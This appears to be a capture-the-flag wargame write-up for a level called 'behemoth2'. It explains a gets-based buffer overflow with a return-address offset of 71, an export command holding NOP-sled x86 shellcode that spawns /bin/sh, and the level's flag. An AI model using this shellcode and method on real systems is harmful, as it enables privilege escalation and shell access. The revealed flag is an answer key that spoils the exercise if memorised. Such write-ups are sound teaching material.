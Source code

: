 ```yaml
---
layout: default
title: behemoth2
---
```




first we can see the challenge is based on buffer overflow, because the binary uses get.

let's use our script to find what is the position of the ret-address... we've found it's 71.
then, we will generate shellcode.

```python
{% include_relative general/shellcode.py %}
```

now we will load the shellcode into env variable:
```
export SHELLCODE=$(echo -e "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x31\x58\xcd\x80\x89\xc3\x89\xd9\x6a\x46\x58\xcd\x80\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")
```
we need to find the address of the env variable.

```c
{% include_relative general/get_address.c %}
```
notice to compile it with the `-m32` flag, for example: `gcc -m32 get_address.c -o get_address`

after finding the address of the env variable, in our case: `0xffffd511`, we need to insert it to the script that solves the challenge.

```py
{% include_relative scripts/level2.py %}
```

**Flag:** ***`IxPJbQtH8q`*** 
